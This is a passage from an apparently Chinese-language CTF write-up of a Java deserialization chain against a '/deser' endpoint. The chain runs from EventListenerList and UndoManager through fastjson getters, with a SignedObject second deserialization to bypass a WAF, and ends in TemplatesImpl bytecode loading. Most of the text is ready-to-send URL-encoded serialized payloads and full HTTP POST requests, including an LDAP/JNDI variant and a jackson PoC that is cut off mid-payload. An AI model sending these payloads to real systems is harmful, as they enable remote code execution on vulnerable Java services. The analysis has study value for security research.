78%68%62%6d%63%75%55%33%52%79%61%57%35%6e%63%33%49%41%48%47%70%68%64%6d%46%34%4c%6e%4e%33%61%57%35%6e%4c%6e%56%75%5a%47%38%75%56%57%35%6b%62%30%31%68%62%6d%46%6e%5a%58%4c%6a%4b%79%46%35%54%48%48%4b%51%67%49%41%41%6b%6b%41%44%6d%6c%75%5a%47%56%34%54%32%5a%4f%5a%58%68%30%51%57%52%6b%53%51%41%46%62%47%6c%74%61%58%52%34%63%67%41%64%61%6d%46%32%59%58%67%75%63%33%64%70%62%6d%63%75%64%57%35%6b%62%79%35%44%62%32%31%77%62%33%56%75%5a%45%56%6b%61%58%53%6c%6e%6c%43%36%55%39%75%56%2f%51%49%41%41%6c%6f%41%43%6d%6c%75%55%48%4a%76%5a%33%4a%6c%63%33%4e%4d%41%41%56%6c%5a%47%6c%30%63%33%51%41%45%6b%78%71%59%58%5a%68%4c%33%56%30%61%57%77%76%56%6d%56%6a%64%47%39%79%4f%33%68%79%41%43%56%71%59%58%5a%68%65%43%35%7a%64%32%6c%75%5a%79%35%31%62%6d%52%76%4c%6b%46%69%63%33%52%79%59%57%4e%30%56%57%35%6b%62%32%46%69%62%47%56%46%5a%47%6c%30%43%41%30%62%6a%75%30%43%43%78%41%43%41%41%4a%61%41%41%56%68%62%47%6c%32%5a%56%6f%41%43%32%68%68%63%30%4a%6c%5a%57%35%45%62%32%35%6c%65%48%41%42%41%51%46%7a%63%67%41%51%61%6d%46%32%59%53%35%31%64%47%6c%73%4c%6c%5a%6c%59%33%52%76%63%74%6d%58%66%56%75%41%4f%36%38%42%41%77%41%44%53%51%41%52%59%32%46%77%59%57%4e%70%64%48%6c%4a%62%6d%4e%79%5a%57%31%6c%62%6e%52%4a%41%41%78%6c%62%47%56%74%5a%57%35%30%51%32%39%31%62%6e%52%62%41%41%74%6c%62%47%56%74%5a%57%35%30%52%47%46%30%59%58%51%41%45%31%74%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%30%39%69%61%6d%56%6a%64%44%74%34%63%41%41%41%41%41%41%41%41%41%41%42%64%58%49%41%45%31%74%4d%61%6d%46%32%59%53%35%73%59%57%35%6e%4c%6b%39%69%61%6d%56%6a%64%44%75%51%7a%6c%69%66%45%48%4d%70%62%41%49%41%41%48%68%77%41%41%41%41%5a%48%4e%79%41%42%35%6a%62%32%30%75%59%57%78%70%59%6d%46%69%59%53%35%6d%59%58%4e%30%61%6e%4e%76%62%69%35%4b%55%30%39%4f%51%58%4a%79%59%58%6b%41%41%41%41%41%41%41%41%41%41%51%49%41%41%55%77%41%42%47%78%70%63%33%52%30%41%42%42%4d%61%6d%46%32%59%53%39%31%64%47%6c%73%4c%30%78%70%63%33%51%37%65%48%42%7a%63%51%42%2b%41%41%41%41%41%41%41%42%64%77%51%41%41%41%41%42%63%51%42%2b%41%41%56%34%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%65%41%41%41%41%41%41%41%41%41%42%6b%63%48%68%34
```

然后首先来到我们的原生的 EventListenerList 的 readobject 方法



进入 add 方法  


把我们的 javax.swing.undo.UndoManager 对象和字符串进行了一个拼接

这样当然会触发 UndoManager 的 tostring 方法

```
toString:1071, JSON (com.alibaba.fastjson)
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
toString:462, AbstractCollection (java.util)
toString:1000, Vector (java.util)
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
toString:258, CompoundEdit (javax.swing.undo)
toString:621, UndoManager (javax.swing.undo)
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
add:187, EventListenerList (javax.swing.event)
readObject:277, EventListenerList (javax.swing.event)

```

然后一路会触发到

java.util.Vector 的toString 方法

它会调用父类的

```
public String toString() {
    Iterator<E> it = iterator();
    if (! it.hasNext())
        return "[]";

    StringBuilder sb = new StringBuilder();
    sb.append('[');
    for (;;) {
        E e = it.next();
        sb.append(e == this ? "(this Collection)" : e);
        if (! it.hasNext())
            return sb.append(']').toString();
        sb.append(',').append(' ');
    }
}
```

会调用 append 方法

```
public StringBuilder append(Object obj) {
    return append(String.valueOf(obj));
}
```

我们需要控制 obj

跟进 valueOf

```
public static String valueOf(Object obj) {
    return (obj == null) ? "null" : obj.toString();
}
```

因为这里可以调用 obj 的 toString 方法

我们的目的是触发 fastjson 的原生，那么就需要控制 obj 为 jsonarray



然后来到 fastjson 的原生部分，这部分的话简单来说其实就是触发类的 getter 方法

这里我们因为需要出口类，所以我们还得绕一下，得使用二次反序列化



可以看到这个调用栈，而触发类的 getter 方法是在更底层的代码，是看不到的

我们需要做的就是控制 array 里面是我们的 SignedObject 对象  


然后重点就是在 getObject 方法



我们控制 content 为我们的反序列化数据，这样就能够绕过我们的 waf 了

然后相当于又是一次新的反序列化了，这里我们就可以使用被 waf 的类了，再次一次最基础的 fastjson 的原生  
也就是使用我们 waf 中的也是 java 触发 tostring 的老朋友了

BadAttributeValueException



这里直接放入我们的出口类了，触发 getOutputProperties 方法

最后实现字节码加载



## 其他调用链

我主要是对链子感兴趣，然后思考还有没有其他的利用链子呢，java 反序列化就是找链子嘛，这里单纯分析分析其他的链子，拓展一下利用面和题目无关

比如 JDNI 攻击面

  
使用 LdapAttribute

这个也是 JDK 的原生类

我们先自己起一个服务

然后直接打

```
POST /deser HTTP/1.1
Host: 127.0.0.1:8888
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: MAIN_MENU_COLLAPSE=false; DG_USER_ID_ANONYMOUS=e5dbe5efa486485aa7d6260b97b1fe1d; JSESSIONID=45B324D6588B085CCB0EBE866FF97AD0
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 7208

payload=%72%4f%30%41%42%58%4e%79%41%42%4e%71%59%58%5a%68%4c%6e%56%30%61%57%77%75%51%58%4a%79%59%58%6c%4d%61%58%4e%30%65%49%48%53%48%5a%6e%48%59%5a%30%44%41%41%46%4a%41%41%52%7a%61%58%70%6c%65%48%41%41%41%41%41%43%64%77%51%41%41%41%41%43%63%33%49%41%47%6d%70%68%64%6d%45%75%63%32%56%6a%64%58%4a%70%64%48%6b%75%55%32%6c%6e%62%6d%56%6b%54%32%4a%71%5a%57%4e%30%43%66%2b%39%61%43%6f%38%31%66%38%43%41%41%4e%62%41%41%64%6a%62%32%35%30%5a%57%35%30%64%41%41%43%57%30%4a%62%41%41%6c%7a%61%57%64%75%59%58%52%31%63%6d%56%78%41%48%34%41%41%30%77%41%44%48%52%6f%5a%57%46%73%5a%32%39%79%61%58%52%6f%62%58%51%41%45%6b%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%55%33%52%79%61%57%35%6e%4f%33%68%77%64%58%49%41%41%6c%74%43%72%50%4d%58%2b%41%59%49%56%4f%41%43%41%41%42%34%63%41%41%41%41%33%53%73%37%51%41%46%63%33%49%41%45%57%70%68%64%6d%45%75%64%58%52%70%62%43%35%49%59%58%4e%6f%54%57%46%77%42%51%66%61%77%63%4d%57%59%4e%45%44%41%41%4a%47%41%41%70%73%62%32%46%6b%52%6d%46%6a%64%47%39%79%53%51%41%4a%64%47%68%79%5a%58%4e%6f%62%32%78%6b%65%48%41%2f%51%41%41%41%41%41%41%41%44%48%63%49%41%41%41%41%45%41%41%41%41%41%46%7a%63%67%41%66%59%32%39%74%4c%6e%4e%31%62%69%35%71%62%6d%52%70%4c%6d%78%6b%59%58%41%75%54%47%52%68%63%45%46%30%64%48%4a%70%59%6e%56%30%5a%63%52%37%61%77%4b%6d%42%59%50%41%41%77%41%44%54%41%41%4b%59%6d%46%7a%5a%55%4e%30%65%45%56%75%64%6e%51%41%46%55%78%71%59%58%5a%68%4c%33%56%30%61%57%77%76%53%47%46%7a%61%48%52%68%59%6d%78%6c%4f%30%77%41%43%6d%4a%68%63%32%56%44%64%48%68%56%55%6b%78%30%41%42%4a%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%7a%74%4d%41%41%4e%79%5a%47%35%30%41%42%4e%4d%61%6d%46%32%59%58%67%76%62%6d%46%74%61%57%35%6e%4c%30%35%68%62%57%55%37%65%48%49%41%4a%57%70%68%64%6d%46%34%4c%6d%35%68%62%57%6c%75%5a%79%35%6b%61%58%4a%6c%59%33%52%76%63%6e%6b%75%51%6d%46%7a%61%57%4e%42%64%48%52%79%61%57%4a%31%64%47%56%64%6c%64%4d%71%5a%6f%56%6c%76%67%4d%41%41%6c%6f%41%42%32%39%79%5a%47%56%79%5a%57%52%4d%41%41%5a%68%64%48%52%79%53%55%52%78%41%48%34%41%42%48%68%77%41%48%51%41%41%6d%6c%6b%64%77%51%41%41%41%41%41%65%48%42%30%41%42%64%73%5a%47%46%77%4f%69%38%76%4d%54%49%33%4c%6a%41%75%4d%43%34%78%4f%6a%55%77%4d%7a%67%35%4c%33%4e%79%41%42%70%71%59%58%5a%68%65%43%35%75%59%57%31%70%62%6d%63%75%51%32%39%74%63%47%39%7a%61%58%52%6c%54%6d%46%74%5a%52%63%6c%47%6b%75%54%31%6e%72%2b%41%77%41%41%65%48%42%33%42%41%41%41%41%41%4e%30%41%41%59%34%4e%54%45%77%4e%7a%4e%30%41%41%42%30%41%41%46%69%65%48%68%7a%63%67%41%75%61%6d%46%32%59%58%67%75%62%57%46%75%59%57%64%6c%62%57%56%75%64%43%35%43%59%57%52%42%64%48%52%79%61%57%4a%31%64%47%56%57%59%57%78%31%5a%55%56%34%63%45%56%34%59%32%56%77%64%47%6c%76%62%74%54%6e%32%71%74%6a%4c%55%5a%41%41%67%41%42%54%41%41%44%64%6d%46%73%64%41%41%53%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%50%59%6d%70%6c%59%33%51%37%65%48%49%41%45%32%70%68%64%6d%45%75%62%47%46%75%5a%79%35%46%65%47%4e%6c%63%48%52%70%62%32%37%51%2f%52%38%2b%47%6a%73%63%78%41%49%41%41%48%68%79%41%42%4e%71%59%58%5a%68%4c%6d%78%68%62%6d%63%75%56%47%68%79%62%33%64%68%59%6d%78%6c%31%63%59%31%4a%7a%6c%33%75%4d%73%44%41%41%52%4d%41%41%56%6a%59%58%56%7a%5a%58%51%41%46%55%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%56%47%68%79%62%33%64%68%59%6d%78%6c%4f%30%77%41%44%57%52%6c%64%47%46%70%62%45%31%6c%63%33%4e%68%5a%32%56%78%41%48%34%41%42%46%73%41%43%6e%4e%30%59%57%4e%72%56%48%4a%68%59%32%56%30%41%42%35%62%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%54%64%47%46%6a%61%31%52%79%59%57%4e%6c%52%57%78%6c%62%57%56%75%64%44%74%4d%41%42%52%7a%64%58%42%77%63%6d%56%7a%63%32%56%6b%52%58%68%6a%5a%58%42%30%61%57%39%75%63%33%51%41%45%45%78%71%59%58%5a%68%4c%33%56%30%61%57%77%76%54%47%6c%7a%64%44%74%34%63%48%42%77%64%58%49%41%48%6c%74%4d%61%6d%46%32%59%53%35%73%59%57%35%6e%4c%6c%4e%30%59%57%4e%72%56%48%4a%68%59%32%56%46%62%47%56%74%5a%57%35%30%4f%77%4a%47%4b%6a%77%38%2f%53%49%35%41%67%41%41%65%48%41%41%41%41%41%41%63%48%68%7a%63%67%41%65%59%32%39%74%4c%6d%46%73%61%57%4a%68%59%6d%45%75%5a%6d%46%7a%64%47%70%7a%62%32%34%75%53%6c%4e%50%54%6b%46%79%63%6d%46%35%41%41%41%41%41%41%41%41%41%41%45%43%41%41%46%4d%41%41%52%73%61%58%4e%30%63%51%42%2b%41%42%56%34%63%48%4e%79%41%42%4e%71%59%58%5a%68%4c%6e%56%30%61%57%77%75%51%58%4a%79%59%58%6c%4d%61%58%4e%30%65%49%48%53%48%5a%6e%48%59%5a%30%44%41%41%46%4a%41%41%52%7a%61%58%70%6c%65%48%41%41%41%41%41%42%64%77%51%41%41%41%41%42%63%51%42%2b%41%41%64%34%65%48%56%78%41%48%34%41%42%67%41%41%41%43%38%77%4c%51%49%56%41%4a%62%62%38%4e%52%2f%46%5a%50%59%53%65%50%67%6a%72%37%7a%73%47%4b%6b%63%4f%73%48%41%68%51%54%39%6f%2b%36%5a%32%4c%37%65%52%42%6c%34%51%45%42%7a%4d%30%78%6c%69%58%51%44%6e%51%41%41%30%52%54%51%58%4e%79%41%43%4e%71%59%58%5a%68%65%43%35%7a%64%32%6c%75%5a%79%35%6c%64%6d%56%75%64%43%35%46%64%6d%56%75%64%45%78%70%63%33%52%6c%62%6d%56%79%54%47%6c%7a%64%4c%45%32%78%6e%32%45%36%74%5a%45%41%77%41%41%65%48%42%30%41%42%42%71%59%58%5a%68%4c%6d%78%68%62%6d%63%75%55%33%52%79%61%57%35%6e%63%33%49%41%48%47%70%68%64%6d%46%34%4c%6e%4e%33%61%57%35%6e%4c%6e%56%75%5a%47%38%75%56%57%35%6b%62%30%31%68%62%6d%46%6e%5a%58%4c%6a%4b%79%46%35%54%48%48%4b%51%67%49%41%41%6b%6b%41%44%6d%6c%75%5a%47%56%34%54%32%5a%4f%5a%58%68%30%51%57%52%6b%53%51%41%46%62%47%6c%74%61%58%52%34%63%67%41%64%61%6d%46%32%59%58%67%75%63%33%64%70%62%6d%63%75%64%57%35%6b%62%79%35%44%62%32%31%77%62%33%56%75%5a%45%56%6b%61%58%53%6c%6e%6c%43%36%55%39%75%56%2f%51%49%41%41%6c%6f%41%43%6d%6c%75%55%48%4a%76%5a%33%4a%6c%63%33%4e%4d%41%41%56%6c%5a%47%6c%30%63%33%51%41%45%6b%78%71%59%58%5a%68%4c%33%56%30%61%57%77%76%56%6d%56%6a%64%47%39%79%4f%33%68%79%41%43%56%71%59%58%5a%68%65%43%35%7a%64%32%6c%75%5a%79%35%31%62%6d%52%76%4c%6b%46%69%63%33%52%79%59%57%4e%30%56%57%35%6b%62%32%46%69%62%47%56%46%5a%47%6c%30%43%41%30%62%6a%75%30%43%43%78%41%43%41%41%4a%61%41%41%56%68%62%47%6c%32%5a%56%6f%41%43%32%68%68%63%30%4a%6c%5a%57%35%45%62%32%35%6c%65%48%41%42%41%51%46%7a%63%67%41%51%61%6d%46%32%59%53%35%31%64%47%6c%73%4c%6c%5a%6c%59%33%52%76%63%74%6d%58%66%56%75%41%4f%36%38%42%41%77%41%44%53%51%41%52%59%32%46%77%59%57%4e%70%64%48%6c%4a%62%6d%4e%79%5a%57%31%6c%62%6e%52%4a%41%41%78%6c%62%47%56%74%5a%57%35%30%51%32%39%31%62%6e%52%62%41%41%74%6c%62%47%56%74%5a%57%35%30%52%47%46%30%59%58%51%41%45%31%74%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%30%39%69%61%6d%56%6a%64%44%74%34%63%41%41%41%41%41%41%41%41%41%41%42%64%58%49%41%45%31%74%4d%61%6d%46%32%59%53%35%73%59%57%35%6e%4c%6b%39%69%61%6d%56%6a%64%44%75%51%7a%6c%69%66%45%48%4d%70%62%41%49%41%41%48%68%77%41%41%41%41%5a%48%4e%79%41%42%35%6a%62%32%30%75%59%57%78%70%59%6d%46%69%59%53%35%6d%59%58%4e%30%61%6e%4e%76%62%69%35%4b%55%30%39%4f%51%58%4a%79%59%58%6b%41%41%41%41%41%41%41%41%41%41%51%49%41%41%55%77%41%42%47%78%70%63%33%52%30%41%42%42%4d%61%6d%46%32%59%53%39%31%64%47%6c%73%4c%30%78%70%63%33%51%37%65%48%42%7a%63%51%42%2b%41%41%41%41%41%41%41%42%64%77%51%41%41%41%41%42%63%51%42%2b%41%41%56%34%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%65%41%41%41%41%41%41%41%41%41%42%6b%63%48%68%34
```

不过这里需要注意一下的就是 JDK 的版本了

其他的都没有什么问题

之后突然发现它根本没有 ban 我们的 LDAP 类，所以其实直接用就 ok

二次反序列化的话我们还可以打 jackson 的原生



POC

```
POST /deser HTTP/1.1
Host: 127.0.0.1:8888
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: MAIN_MENU_COLLAPSE=false; DG_USER_ID_ANONYMOUS=e5dbe5efa486485aa7d6260b97b1fe1d; JSESSIONID=45B324D6588B085CCB0EBE866FF97AD0
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 11408

payload=%72%4f%30%41%42%58%4e%79%41%42%4e%71%59%58%5a%68%4c%6e%56%30%61%57%77%75%51%58%4a%79%59%58%6c%4d%61%58%4e%30%65%49%48%53%48%5a%6e%48%59%5a%30%44%41%41%46%4a%41%41%52%7a%61%58%70%6c%65%48%41%41%41%41%41%43%64%77%51%41%41%41%41%43%63%33%49%41%47%6d%70%68%64%6d%45%75%63%32%56%6a%64%58%4a%70%64%48%6b%75%55%32%6c%6e%62%6d%56%6b%54%32%4a%71%5a%57%4e%30%43%66%2b%39%61%43%6f%38%31%66%38%43%41%41%4e%62%41%41%64%6a%62%32%35%30%5a%57%35%30%64%41%41%43%57%30%4a%62%41%41%6c%7a%61%57%64%75%59%58%52%31%63%6d%56%78%41%48%34%41%41%30%77%41%44%48%52%6f%5a%57%46%73%5a%32%39%79%61%58%52%6f%62%58%51%41%45%6b%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%55%33%52%79%61%57%35%6e%4f%33%68%77%64%58%49%41%41%6c%74%43%72%50%4d%58%2b%41%59%49%56%4f%41%43%41%41%42%34%63%41%41%41%42%34%32%73%37%51%41%46%63%33%49%41%45%57%70%68%64%6d%45%75%64%58%52%70%62%43%35%49%59%58%4e%6f%54%57%46%77%42%51%66%61%77%63%4d%57%59%4e%45%44%41%41%4a%47%41%41%70%73%62%32%46%6b%52%6d%46%6a%64%47%39%79%53%51%41%4a%64%47%68%79%5a%58%4e%6f%62%32%78%6b%65%48%41%2f%51%41%41%41%41%41%41%41%44%48%63%49%41%41%41%41%45%41%41%41%41%41%46%7a%63%67%41%36%59%32%39%74%4c%6e%4e%31%62%69%35%76%63%6d%63%75%59%58%42%68%59%32%68%6c%4c%6e%68%68%62%47%46%75%4c%6d%6c%75%64%47%56%79%62%6d%46%73%4c%6e%68%7a%62%48%52%6a%4c%6e%52%79%59%58%67%75%56%47%56%74%63%47%78%68%64%47%56%7a%53%57%31%77%62%41%6c%58%54%38%46%75%72%4b%73%7a%41%77%41%47%53%51%41%4e%58%32%6c%75%5a%47%56%75%64%45%35%31%62%57%4a%6c%63%6b%6b%41%44%6c%39%30%63%6d%46%75%63%32%78%6c%64%45%6c%75%5a%47%56%34%57%77%41%4b%58%32%4a%35%64%47%56%6a%62%32%52%6c%63%33%51%41%41%31%74%62%51%6c%73%41%42%6c%39%6a%62%47%46%7a%63%33%51%41%45%6c%74%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%30%4e%73%59%58%4e%7a%4f%30%77%41%42%56%39%75%59%57%31%6c%64%41%41%53%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%54%64%48%4a%70%62%6d%63%37%54%41%41%52%58%32%39%31%64%48%42%31%64%46%42%79%62%33%42%6c%63%6e%52%70%5a%58%4e%30%41%42%5a%4d%61%6d%46%32%59%53%39%31%64%47%6c%73%4c